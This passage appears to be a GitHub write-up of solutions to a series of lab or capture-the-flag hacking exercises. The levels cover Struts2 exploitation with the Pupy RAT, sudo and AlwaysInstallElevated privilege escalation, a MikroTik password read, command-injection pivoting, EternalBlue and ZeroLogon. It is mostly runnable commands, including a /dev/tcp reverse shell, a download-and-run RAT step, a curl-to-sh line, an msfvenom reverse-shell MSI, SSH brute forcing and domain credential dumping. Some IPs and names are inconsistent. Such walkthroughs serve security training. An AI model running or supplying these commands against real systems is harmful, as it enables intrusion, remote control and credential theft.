2. If you previously set up SSH services on your own node, then the digital signature of your new service may not match the old one. In this case, the SSH client will not allow you to connect to its own service and will display an error:

@WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED! @

This means that the ~/.ssh/known_hosts file still has the same digital signature for host 127.0.0.1.

To eliminate this error, you need to go to the ~/.ssh/known_hosts file and remove the entries associated with the IP address 127.0.0.1 from the file.

These lines might look like this:
```bash
[127.0.0.1]:2022 ecdsa-sha2-nistp256 AAAA………….……1cV6VE=
```
3. Your SSH client may not find the SSH key you generated and passed its public part to the application. In this case, run the command:
```bash
`ssh -i ~/.ssh/id_rsa -p 2022 pupy@127.0.0.1`,
```
and replace ~/.ssh/id_rsa with the path to the SSH private key you generated.

## How to solve

1. Run the stand with the RAT server and a vulnerable Struts 2 machine:

##### struts2:
```bash
$ docker run -d --rm -p 8080:8080 --name struts piesecurity/apache-struts2-cve-2017-5638
```
##### Pupyserver:
```bash
$ docker run -d --rm -v /tmp/projects:/projects -p 2022:22 --name pupy alxchk/pupy:unstable
```
2. Let's exploit the vulnerability using msf:
```bash
$msfconsole

msf6> use exploit/multi/http/struts2_code_exec_showcase

msf6> set RHOSTS localhost

msf6> set TARGETURI /integration/saveGangster.action

msf6> set PAYLOAD cmd/unix/generic

msf6> set cmd id

msf6> exploit
```
3. Secure access by creating a reverse connection:

Let's use the revshells.com resource to generate commands, open the listener
Open a new terminal window and run the netcat utility to accept a connection from a remote machine:
```bash
$nc -lvp 9004
```
Let's run the command that initiates a connection to netcat from the attacked machine:
```bash
msf6> set CMD 'sh -I >& /dev/tcp/172.20.10.7/9004 0>&1'
```
Now that the connection is established, we can start preparing to launch the pupy client side to more conveniently manage the compromised machine.

4. To work with pupy, you need to add your SSH key to the trusted ones:

Note that ~ is the home directory, i.e. need to generate a key. To do this, use the ssh-keygen utility and create a standard non-password protected key by pressing enter a few times.
```bash
$ cp ~/.ssh/id_rsa.pub /tmp/projects/keys/authorized_keys
```
Let's connect to the pupy server interface:
```bash
$ ssh -I ~/.ssh/id_rsa -p 2022 pupy@127.0.0.1
```
5. To generate payload, use the gen command:

Reference:

> gen -h

6. Create a load under Linux OS with x64 architecture:
```bash
gen -f client -O linux -A x64 connect
```
The binary file appears in the /projects/default/output directory, then you need to transfer it to the compromised host using the web server built into python.

7. Go to the directory with the file:
```bash
$ cd /tmp/projects/default/output
```
8. Start the server:
```bash
$ python3 -m http.server 3000
```
9. Determine our ip-address:
```bash
$ ip a | grep inet
```
10. Run the following command on the compromised host:
```bash
wget http://<Your IP>:3000/pupyx64.Nla2MY.lin # The IP address and file name must be determined from the output of previous commands
```
11. Give the file permission to execute:
```bash
chmod +x pupy*  # is replaced with all files starting with pupy
```
12. Execute the file and wait for it to be connected to the RAT server:
```bash
 ./pupy*
```
13. After a successful connection, collect information about the host:
```bash
info
```
14. Let's see how the RAT process looks in the system:
```bash
ps aux
```
The process name is masked, which provides stealth when managing a remote computer.



# Level 4 — 9.3 — Practice "Elevation of Privilege on Server Systems in Linux"

## Task
Analyze the configuration of the operating system on behalf of the low-privileged user regular by logging into the OS using the SSH protocol. Find vulnerabilities in your user's sudo settings configuration.

As proof of successful operation, provide a flag (a secret string in the format of 32 letters and numbers) from the root.txt file located in the /root/ directory.

## Preparing

Go to the appeared directory “lpe-prod” in the terminal shell of your OS. Run command:
```bash
docker-compose up -d
```
Port 2022 will appear on your machine where you started the docker container. You can connect to this port using the ssh protocol and the command:
```bash
ssh -p 2022 regular@127.0.0.1
```
###### User login: regular

###### User password: regular
 
#### Possible problems:

1. If you have not disabled past lab benches, an error may appear:

Bind for 0.0.0.0:2022 failed: port is already allocated

In this case, run the docker ps command, find a running container that uses the previously occupied port, and stop it with the command:
```bash
docker stop [container name or id]
```
2. If you previously set up SSH services on your own node, then the digital signature of your new service may not match the old one. In this case, the SSH client will not allow you to connect to its own service and will display an error:

@WARNING: REMOTE HOST IDENTIFICATION HAS CHANGED! @

This means that the ~/.ssh/known_hosts file still has the same digital signature for host 127.0.0.1.

To eliminate this error, you need to go to the ~/.ssh/known_hosts file and remove the entries associated with the IP address 127.0.0.1 from the file.

These lines might look like this:
```bash
[127.0.0.1]:2022 ecdsa-sha2-nistp256 AAAA………….……1cV6VE=
```

### How to solve

You are on a node with Linux OS, your task is to elevate your privileges to the Root level.

Course of action

1. Check the rights of the current user:
```bash
$id
```
2. We note that the current user is a member of the sudo group and, therefore, can execute various commands with elevated privileges. We get a list of such commands:
```bash
$ sudo -l
```
3. We see that we can run the nmap utility without entering a password; check that the permissions are actually elevated by using the -sS scan option available only for root:
```bash
$ sudo nmap -sS localhost
```
4. For a more complete search for vectors for elevation of rights, we will use the LinPEAS utility:

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Download and execute this script, analyze its output:
```bash
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
5. To find ways to execute arbitrary code using an elevated utility, we turn to the resource https://gtfobins.github.io/ and find nmap there. To get an interactive shell as root, we use the commands from the gtfobins resource and make nmap execute a Lua script that opens a shell:

Let's create a temporary file with the script code and save its name to the TF variable:
```bash
$TF=$mktemp
```
Let's add the code that opens the sh shell:
```bash
$ echo ‘os.execute(“/bin/sh”)’ > $TF
```
6. Run the script as root using sudo and nmap:
```bash
$ sudo nmap --script=$TF
```
7. Check the received rights:
```bash
$id
```
8. Get the flag:
```bash
curl -s file:///root/root.txt
```


# Level 5 - 10.5 Practice "Going beyond the DMZ"

## Task 

Analyze the security of the node you deployed in the virtual bench, determine the software version and try to identify known vulnerabilities of this operating system. Find a known vulnerability that allows you to extract the password history of router accounts, and exploit it using the metasploit framework.

As a confirmation of successful operation, provide a flag (the administrator account password that preceded the password that you specified when you initialized the router, in the format of 9 letters, numbers and special characters).

## How to solve:

### Method 1

1. We carry out a basic scan: we check the top 100 TCP ports without performing a ping scan and checking the DNS record, we determine the versions of the services:
```bash
$ nmap -sT -Pn -n -F -sV --open 192.168.56.103
```
2. We detect services, we see that these are Mikrotik devices version 6.40.7. We are looking for information about vulnerabilities, the most relevant is CVE-2020-20214. We launch the Metasploit Framework and look for modules to exploit this and other vulnerabilities:
```bash
$msfconsole

msf6 > search mikrotik

msf6> use auxiliary/gather/mikrotik_winbox_fileread

msf6>info
```
3. In the description of the module, we see the vulnerable version 6.40.7, therefore, this device is highly likely to be affected by it. Since this vulnerability is of the directory traversal type, we can use the module to read arbitrary files on the attacked device, namely, to read password change logs that reveal credentials in clear text:
```bash
msf6 auxiliary(gather/mikrotik_winbox_fileread) > set RHOST 192.168.56.103
RHOST => 192.168.56.103
msf6 auxiliary(gather/mikrotik_winbox_fileread) > run

[*] Running for 192.168.56.103...
[*] 192.168.56.103 - Session ID: 1
[*] 192.168.56.103 - Requesting user database through exploit
[*] 192.168.56.103 - Exploit successful, attempting to extract usernames & passwords
[*] 192.168.56.103 - Extracted Username: "admin" and password "password"
[*] 192.168.56.103 - Extracted Username: "admin" and password "P@sSw0rd!"
[*] 192.168.56.103 - Extracted Username: "admin" and password ""
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
 
```
4. We get the login and password of the device administrator.

### Method 2

This vulnerability could be exploited without MSF using a separate exploit: https://www.exploit-db.com/exploits/45578

1. Enter the device management interface through a browser using the extracted password:



2. The administration panel of the router allows you to get information about network interfaces, change firewall rules and use it to access the attacked network.

# Level 6 — 11.3 — Practice "Traffic Forwarding"

## Task
This task has two hosts and two web servers. Let's call them jump and target.

You have been granted access to a web application on the jump node. It will open for you at localhost:1337.
 

Analyze the security of the panel located on the website of the jump node and exploit the vulnerabilities found. Find the target node on the same network as the jump node (the target node is not directly accessible to you). When you find the target node, parse the target web application and find the files published to the web server in it. To do this, learn how to forward traffic for scanning through the jump node to the target node.

As proof of successful exploitation, provide a flag (a secret string in the format of 32 letters and numbers) from the code of a special hidden page on the target node.

## How to solve
1. We launch the laboratory stand:
```bash
$ docker-compose up -d
```
2. Check the availability of the pinger service via the web interface

3. Check the possibility of command injection:
```bash
> 1.1.1.1; ls
```
4. Collect information about the service:
```bash
> hostname -I
```
5. The IP address belongs to the local network, let's try to find other hosts hidden in the local network:
```bash
> curl 172.22.0.2
```
6. Our task is to find a file on a web server that is hidden on the local network, we use the ffuf utility for this, but this requires a stable connection to the target server through an intermediate host.

We use a proxy from the Go simple tunnel project: https://github.com/ginuerzh/gost

7. Download the binary file from the releases, select the build for Linux with amd64, for example:

https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz

8. Let's prepare the web server to transfer this file to the attacked machine:
```bash
$ cd /tmp
```
```bash
$ mkdir http; cd http
```
```bash
$ wget https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz
```
```bash
$ gunzip gost-linux-amd64-2.11.5.gz # unpack the archive with the binary
```
```bash
$ mv gost-linux-amd64-2.11.5 gost
```
```bash
$ python3 -m http.server 3000
```

9. Determine our IP address:
```bash
$ ip a
```
10. Next, in the browser, we download the file through the pinger interface:
```bash
> 1.1.1.1 | curl -O <your IP>:3000/gost # Change the IP address to your network interface address
```
```bash
> chmod +x gost # grant execution permissions
```
```bash
> ls -la
```
11. Run gost in proxy mode:
```bash
> 1.1.1.1 | ./gost -L=:1338
```
12. Set up the ffuf utility to use a proxy and use it to discover files on a remote web server with IP 172.22.0.2 on the local network:
```bahs
$ http_proxy=127.0.0.1:1338 ffuf -w ~/Downloads/fuzz.txt -u http://172.22.0.2/FUZZ -fc 403
```
13. Get the dev file, read it with curl and get the secret:
```
> 1.1.1.1 | curl 172.22.0.2/.dev
```





# Level 7 — 12.4 Practice “Network reconnaissance and compromise of Windows machines”

## Task

Analyze the security of the node you deployed in the virtual bench, determine the software version and try to identify known vulnerabilities of this operating system. Find a known vulnerability affecting this operating system and exploit it using the metasploit framework.

As proof of successful operation, provide a flag (secret string in the format of 26 letters and numbers) from the root.txt file located in Kevin's desktop folder.

## How to solve

1. Let's reconnoiter a Windows machine, start by scanning open ports:
```bash
$ nmap -Pn -n -F -sT --open 192.168.10.0/24
```

2. Of greatest interest here is port 445, used by the SMB protocol for accessing files and folders and communicating between hosts:
```bash
$ nmap -Pn -n -p 445 -sC -v --open 192.168.10.4
```

3. This version of Windows may be affected by MS17-010, a critical vulnerability that allows an attacker to execute arbitrary code with SYSTEM user rights. Find and use the nmap script to check the host for vulnerabilities:
```bash
$ find /usr/share/nmap/scripts -iname ‘*MS17*’

/usr/share/nmap/scripts/smb-vuln-ms17-010.nse

$ nmap -Pn -n -p 445 --script smb-vuln-ms17-010 -v --open 192.168.10.4
```

4. To exploit the vulnerability, we use the Metasploit Framework:
```bash
$msfconsole
```

5. Choose an exploit:
```bash
msf6> search ms17-010

msf6> use exploit/windows/smb/ms17_010_eternalblue
```
6. Specify the address of the remote machine:
```bash
msf6> set RHOSTS 192.168.10.4
```
7. Run the exploit:
```bash
msf6> run
```
###### After successfully exploiting the vulnerability, we gain access to host management using meterpreter, a C2 agent that provides many convenient tools for executing commands and various code on a remote host, downloading and uploading files, using the host as a proxy server and, most importantly, providing msf the ability to execute various local modules that automate elevation and post-exploitation on the machine.

8. Let's get acquainted with the main features of meterpreter:
```bash
meterpreter>help
```
9. Collect information about the system and the current user:
```bash
meterpreter> sysinfo

meterpreter> getuid
```


# Level 8 — Practice "Elevation of privileges on Windows local network nodes"

## Task 1 

You know that the node you deployed as a lab bench is owned by a user called john.

Analyze host security. Use the service published on the SSH host to guess John's password using the rockyou dictionary. After gaining access to SSH, analyze the OS configuration for the possibility of elevating your privileges in it. Find vulnerabilities that allow you to elevate your privileges and exploit them.

As proof of successful exploitation, provide the flags (secret strings in the format of 26 letters and numbers) from user.txt located in the user John's desktop folder and root.txt located in the administrator Michael's desktop folder.

Enter the flag from user John's desktop

## Task 2

Enter the flag from user Michael's desktop

## How to solve

1. Scan the Windows system for open ports using nmap:
```bash
$ nmap -Pn -n -F -sV --open 10.8.0.14
```

2. To obtain primary access, let's try to brute force ssh passwords using the patator utility.

###### Patator is a tool that allows you to connect to a server and brute force passwords using password dictionaries or password lists that can be configured for each protocol. Patator also allows you to configure settings for the delay between authentication attempts, which can reduce the likelihood of accounts being locked out.
```bash
$patator ssh_login
```

Let's configure patator to enumerate SSH passwords for the user john, while filtering out all messages that include the string "Authentication failed" to see only successful login attempts.
```
$ patator ssh_login host=10.8.0.14 user=john password=FILE0 0=pathtofile/rockyou.txt -x ignore:mesg='Authentication failed.'
```
By enumeration, we get the correct password: butterfly1

3. Connect to the Windows machine via ssh:
```bash
$ ssh john@10.8.0.14

john@WIN10> whoami

john@WIN10> dir
```
4. To automatically search for a vector for privilege escalation, use the WinPEAS utility:
```bash
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS
```
######  WinPEAS can automatically detect open ports, installed programs and services, scheduled tasks, vulnerable file permissions, UAC (User Account Control) settings, and other privilege vulnerabilities in the operating system.

Using WinPEAS can greatly simplify the process of finding privilege vulnerabilities and increase the efficiency and speed of system security analysis.

Download the latest version of WinPEAS for 64-bit OS on the local machine:
```bash
$ wget https://github.com/carlospolop/PEASS-ng/releases/download/20230413-7f846812/winPEASx64.exe
```
5. Transfer the file to the remote machine via SSH using scp and run the file:
```bash
$ scp winPEASx64.exe john@10.8.0.14:C:\\Users\\John\\

john@WIN10> winPEASx64.exe
```
6. Consider the output of the utility: the most attention should be paid to the highlighted in red. Sequentially looking through the possible vectors, let's pay attention to AlwaysInstallElevated



###### This is a policy that allows you to install any elevated msi packages. This means that if we generate a payload in this format, then when we run it, it will run as NT AUTHORITY\SYSTEM, which gives us full privileges on this machine.

7. Generate an msi payload using msfvenom, the payload will be a reverse shell connection to our machine:
```bash
$ msfvenom –platform windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.28 LPORT=4444 -f msi -o tmp/rev.msi
```
8. Send a payload to a remote machine using SCP:
```bash
$ scp tmp/rev.msi john@10.8.0.14:C:\\Users\\John\\
```
9. Prepare a handler to receive a shell connection using msf:
```bash
$msfconsole
```
10. Use the exploit/multi/handler meta-exploit, which is necessary to accept connections from payloads if they are launched regardless of the use of RCE exploits of the msf itself. Specify the selected payload and the address where it will wait for a connection:
```bash
msf6> use exploit/multi/handler

msf6>options

msf6> set PAYLOAD windows/x64/shell_reverse_tcp

msf6> set LHOST 10.8.0.28

11. Check that the remote system is available via RDP:

$ nmap -Pn -n -p 3389 -sV --open 10.8.0.14
```
12. Let's connect to the remote system via RDP using xfreerdp - a free RDP client with a console interface, specify the user, password, host and the screen width that is convenient for us:
```bash
$ xfreerdp /u:john /p:loveme1 /w:768 /v:10.8.0.14
```
13. Run the installer

14. After receiving the connection in msf, we will perform basic reconnaissance and make sure that we have maximum rights, after which we will read the flag:
```bash
> whoami

> cd C:\Users\Michael\Desktop

> type root.txt
```


# Level 9 — 14.6 Practice "Taking control of the network infrastructure"

## Task 1

Analyze the security of the node you deployed in the virtual bench, determine the software version and try to identify known vulnerabilities of this operating system. Find a known vulnerability affecting this operating system and exploit it using the metasploit framework.

As proof of successful operation, provide a flag (secret string in the format of 26 letters and numbers) from the root.txt file located in the Administrator user's desktop folder.

## Task 2

Collect information about the domain using the ldapdomaindump or BloodHound utilities and search the domain for a user whose comment contains a secret flag in the format: Flag{CUSTOM NUMBERS AND LETTERS}.

As an answer, provide the entire flag string in the format Flag{CUSTOM NUMBERS AND LETTERS}.

## How to solve

1. Let's scan the server using nmap:
```bash
$ nmap -Pn -n -F -v --open 192.168.0.117
```

###### The list of ports is typical for a domain controller: in addition to the standard Windows SMB, MS-RPC and NetBIOS ports, there is also a DNS server on port 53, a server used for authorization in the domain of the Kerberos protocol on 88 and the LDAP directory access protocol on 389.

2. Let's try to determine the version of the DNS server by scanning the SMB port using nmap scripts:
```bash
$ nmap -Pn -n -p 445 -sV -sC -v --open 192.168.0.117
```

###### This version of Windows Server acting as a domain controller may be affected by ZeroLogon, a dangerous vulnerability that allows attackers to gain full access to a domain controller without even having any credentials.
```bash
$msfconsole
```
3. We use the Metasploit Framework tools to check the server for this vulnerability:
```bash
msf6> search zerologon

msf6> use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
```
4. Specify the IP of the server and its NetBIOS name, previously obtained during the nmap scan:
```bash
msf6> set RHOSTS 192.168.0.1788

msf6> set NBNAME DC1
```
5. Check if the host is really vulnerable:
```bash
msf6> check
```
6. Let's exploit the vulnerability:
```bash
msf6> run
```


###### This exploitation technique leads to setting an empty password for the machine account of the domain controller, which can lead to disruption of the domain as a whole.

7. For correct operation, we need to first obtain the credentials of the domain administrator, and then, using them, restore the old password of the machine account. We use impacket for this, a set of tools for working with network and application layer protocols in Python, which allows you to interact with Windows networks from Linux and test their security.
```bash
$locate impacket
```
8. The key tool in this step will be secretsdump, a script used to obtain credentials from remote Windows computers or local registry files.
```bash
$ python3 /usr/lib/python3/dist-packages/impacket/examples/secretsdump.py

$ impacket-secretsdump -h
```
9. Use secretsdump to get the NTLM hash of the domain administrator. The -just-dc-user switch allows us to get the hash of the user we need, -no-pass indicates that the machine account password is empty, sandbox.local is the domain name, DC1$ is the machine account name, and IP 192.168.0.117 is the address domain controller.
```bash
$ impacket-secretsdump -no-pass -just-dc-user administrator ‘sandox.local/DC1$@192.168.0.178’
```

10. To recover the password of the machine account, we need to extract it from the Windows registry, for which we can connect to the domain controller using the wmiexec tool, which is used to execute commands on a remote Windows system via WMI (Windows Management Instrumentation).
```bash
$ impacket-wmiexec -h
```
11. Specify the previously received administrator hash, get the first flag and check the rights after connecting:
```bash
$ impacket-wmiexec -hashes <hash> 'sandbox.local/administrator@192.168.0.178'

C:\> whoami

C:\r>cd C:/users/administrator/desktop/
C:\users\administrator\desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 3052-8B43

 Directory of c:\users\administrator\desktop

03/23/2023  05:20 AM    <DIR>          .
03/23/2023  05:20 AM    <DIR>          ..
04/14/2023  04:13 AM                26 root.txt
               1 File(s)             26 bytes
               2 Dir(s)  50,944,700,416 bytes free

c:\users\administrator\desktop>type root.txt
6p7ne9bk90z7yozcv5c8etx9bz
C:\users\administrator\desktop>
```
12. Save the registry branches of interest to us in separate files:
```bash
C:\> reg save HKLM\SYSTEM system.save

C:\> reg save HKLM\SAM sam.save

C:\> reg save HKLM\SECURITY security.save

13. Download these files to the local machine:

C:\>lget system.save

C:\>lget sam.save

C:\> lget security.save
```
And let's remove them:
```bash
C:\> del /f system.save security.save sam.save
```
14. Locally analyze these files using impacket-secretsdump:
```bash
$ impacket-secretsdump -sam sam.save -system system.save -security security.save LOCAL
```

15. Now that we have obtained the old machine account password from LSA secrets, we can run the exploit again from msf, but in password recovery mode:
```bash
$msfconsole

msf6> use auxiliary/admin/dcerpc/cve_2020_1472_zerologon

msf6> set RHOSTS 192.168.0.178

msf6> set NBNAME DC1
```
16. The options will remain the same, except for two new ones: ACTION - action selection and PASSWORD - machine account password values in HEX:
```bash
msf6> set ACTION RESTORE

msf6> set PASSWORD <$MACHINE.ACC hex password>
```
17. Recover the password:
```bash
msf6> run
```
18. Make sure that access is preserved:
```bash
$ impacket-wmiexec -hashes <hash> 'sandbox.local/administrator@192.168.0.178'
```
19. Using ldapdomaindump to get the second flag:



# Thank you for taking the time to review all of the solutions I've provided for these tasks! Consider leaving a star:)

</div>